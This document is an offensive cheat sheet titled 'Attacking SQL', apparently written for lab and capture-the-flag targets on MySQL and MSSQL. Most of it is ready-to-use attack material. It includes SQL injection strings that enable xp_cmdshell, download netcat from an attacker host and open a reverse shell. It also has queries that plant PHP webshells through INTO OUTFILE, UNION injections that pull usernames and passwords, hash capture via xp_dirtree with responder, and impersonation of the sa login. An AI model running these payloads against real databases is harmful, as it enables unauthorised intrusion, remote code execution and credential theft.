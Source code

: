 # 🛢Attacking SQL

## SQLMap

SQLMAP example:

```
sqlmap -u ws://soc-player.soccer.htb:9091 --data '{"id": "1234"}' --dbms mysql --batch --level 5 --risk 3
```

By default, MSSQL uses ports `TCP/1433` and `UDP/1434`, and MySQL uses `TCP/3306`. However, when MSSQL operates in a "hidden" mode, it uses the `TCP/2433` port.

## Connecting to SQL service

To connect to mysql:

```bash
mysql -u julio -pPassword123 -h 10.129.20.13
```

On windows:

```
sqlcmd -S SRVMSSQL -U julio -P 'MyPassword!' -y 30 -Y 30
```

To connect to mssql:

```bash
sqsh -S 10.129.203.7 -U julio -P 'MyPassword!' -h
```

{% code title="-windows-auth for alternative authentication" %}
```shell-session
mssqlclient.py -p 1433 julio@10.129.203.7 
```
{% endcode %}

## Default Databases

`MySQL` default system schemas/databases:

* `mysql` - is the system database that contains tables that store information required by the MySQL server
* `information_schema` - provides access to database metadata
* `performance_schema` - is a feature for monitoring MySQL Server execution at a low level
* `sys` - a set of objects that helps DBAs and developers interpret data collected by the Performance Schema

`MSSQL` default system schemas/databases:

* `master` - keeps the information for an instance of SQL Server.
* `msdb` - used by SQL Server Agent.
* `model` - a template database copied for each new database.
* `resource` - a read-only database that keeps system objects visible in every database on the server in sys schema.
* `tempdb` - keeps temporary objects for SQL queries.

## RCE

### MSSQL

For MSSQL on windows we can run any code in SQL injection: To get RCE:

{% code overflow="wrap" %}
```
';EXEC sp_configure 'show advanced options',1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell',1; RECONFIGURE;-- 
';EXEC xp_cmdshell "powershell wget http://<ip>/nc64.exe -o C:\Users\Public\nc64.exe";--
';EXEC xp_cmdshell "C:\Users\Public\nc64.exe -t -e C:\Windows\System32\cmd.exe 192.168.45.245 4444";--
```
{% endcode %}

Using Public folder as we know it is writeable by all users.

{% code overflow="wrap" %}
```
EXEC sp_configure 'show advanced options',1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell',1
RECONFIGURE;
EXEC xp_cmdshell "powershell wget http://<ip>/nc64.exe -o C:\Users\Public\nc64.exe";
EXEC xp_cmdshell "C:\Users\Public\nc64.exe -t -e C:\Windows\System32\cmd.exe <ip> <port>";
```
{% endcode %}

### MySQL

We can write a php file that will lead to command execution via a Web Application

```
SELECT "<?php system($_GET['cmd']);?>" INTO OUTFILE "/var/www/html/webshell.php"
```

or with union:

```
' union select '<?php system($_GET["cmd"]); ?>' into outfile '/srv/http/shell.php' -- -
```

Windows:

```
SELECT "<?php system($_GET['cmd']);?>" INTO OUTFILE "C:/wamp/www/shell.php" 
```

## Useful Commands

**To check C directory:**

```
exec xp_dirtree 'c:\'
```

#### **To list databases:**

{% code title="Mysql" %}
```shell-session
SHOW DATABASES;
```
{% endcode %}

{% code title="MSSQL" %}
```
SELECT name FROM master.dbo.sysdatabases
```
{% endcode %}

#### To show tables

{% code title="MySQL" %}
```
SHOW TABLES;
```
{% endcode %}

{% code title="MSSQL" %}
```
SELECT table_name FROM <DATABASE>.INFORMATION_SCHEMA.TABLES
```
{% endcode %}

To concatenate columns:

{% code title="MSSQL" %}
```
union select 1,concat(username,':',password),3,4,5,6 from users--
```
{% endcode %}

**To show tables and their id:**

{% code overflow="wrap" %}
```
union select 1,(select string_agg(concat(name,':',id),'|') from streamio..sysobjects where xtype='u'),3,4,5,6-- -
```
{% endcode %}

**To test xp\_cmdshell:**

```
EXEC xp_cmdshell 'ping 10.10.14.8';
```

On target:

```bash
sudo tcpdump -i tun0 icmp
```

To Write a file:

{% code overflow="wrap" %}
```sql
SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php';
```
{% endcode %}

{% code title="Use ?cmd=whoami to use" overflow="wrap" %}
```sql
SELECT "<?php system($_GET['cmd']); ?>" into outfile "C:\\xampp\\htdocs\\backdoor.php"
```
{% endcode %}

#### To get hash:

Target:

{% code title="MSSQL" %}
```sql
EXEC master..xp_dirtree '\\10.10.14.113\share\'
```
{% endcode %}

Attacker:

```bash
sudo responder -A -I tun0
```

### Impersonation:

Check users we can impersonate:

{% code overflow="wrap" %}
```sql
SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'
```
{% endcode %}

To impersonate:

{% code title="Use master database" %}
```sql
EXECUTE AS LOGIN = 'sa' SELECT SYSTEM_USER SELECT IS_SRVROLEMEMBER('sysadmin')
```
{% endcode %}

#### Verifying current user and role:

```sql
1> SELECT SYSTEM_USER
2> SELECT IS_SRVROLEMEMBER('sysadmin')
3> go
```

### Linked Database

```sql
SELECT srvname, isremote FROM sysservers
```

### Enable xp\_cmdshell

```
EXEC master.dbo.sp_configure 'show advanced options', 1;
RECONFIGURE;
```
